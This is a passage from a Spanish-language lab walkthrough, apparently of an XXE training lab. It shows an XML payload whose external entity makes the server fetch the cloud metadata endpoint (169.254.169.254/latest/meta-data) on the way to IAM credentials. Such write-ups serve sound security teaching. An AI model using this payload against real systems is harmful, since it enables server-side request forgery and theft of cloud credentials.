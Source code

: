 Y ahora veremos la respuesta:

![metadata](/assets/images/LabsXXE/lab2/metadata.png)

Ahora nos listó otra ruta llamada **meta-data**, por lo cual la pondremos en la URL y seguir para ver que más encontramos:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Y vemos la respuesta:

![iam](/assets/images/LabsXXE/lab2/iam.png)
